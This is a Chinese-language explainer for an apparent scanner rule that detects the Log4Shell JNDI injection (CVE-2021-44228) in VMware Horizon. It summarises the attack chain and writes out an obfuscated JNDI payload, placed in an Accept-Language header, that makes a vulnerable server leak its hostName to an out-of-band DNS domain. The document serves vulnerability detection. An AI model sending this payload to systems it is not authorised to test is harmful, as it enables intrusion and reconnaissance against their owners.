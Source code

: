 # VMware Horizon - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

VMware Horizon 存在 Apache Log4j JNDI 注入远程代码执行漏洞（CVE-2021-44228）。攻击者可通过构造恶意请求，远程执行任意代码，危害系统安全。

## 2. 影响范围

- 受影响产品：VMware Horizon（使用受影响 Log4j 版本）
- 只要日志、参数或配置中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时支持 JNDI 查找。攻击者可通过注入特殊payload，诱使 Log4j2 访问恶意JNDI服务器（如LDAP），加载并执行远程代码。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意LDAP服务器，返回恶意Java类。
2. 构造带有JNDI payload的HTTP请求，发送到Horizon接口。
3. 日志记录参数时，Log4j2解析payload，触发JNDI查找，访问攻击者LDAP服务器。
4. 恶意Java类被加载并执行，实现RCE。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用OAST/DNSLog平台（如Interactsh）进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送GET请求到如下接口，Accept-Language头部注入payload：
  ```
  GET /portal/info.jsp HTTP/1.1
  Host: <目标主机>
  Accept-Language: ${jndi:${lower:d}n${lower:s}://${env:hostName}.<interactsh-url>}
  ```
  - <interactsh-url>为OAST平台生成的唯一域名。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 该规则主要依赖OAST平台的DNS交互，不强制要求特定响应内容。
- **OAST平台交互**：
  - 若目标存在漏洞，Log4j2解析payload时会向OAST域名发起DNS查询，OAST平台记录该行为。

### 5.3 判定逻辑

- 只有当：
  1. OAST平台收到带有对应主机名的DNS查询，
  2. DNS查询格式与payload匹配，
  才判定目标存在Log4j JNDI RCE漏洞。

- **判定流程伪代码**：
  ```pseudo
  payload = '${jndi:${lower:d}n${lower:s}://${env:hostName}.<oast-domain>}'
  发送GET /portal/info.jsp，Accept-Language头为payload
  等待OAST平台回调
  若DNS查询中包含hostName：
      判定目标存在漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的GET请求到/portal/info.jsp] --> B[等待OAST平台DNS回显]
      B --> C{DNS查询中含主机名?}
      C -- 否 --> F[无漏洞或未触发]
      C -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [Rapid7 Log4Shell 分析](https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis)
- [VMware官方安全公告](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)
- [Log4j 官方安全公告](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 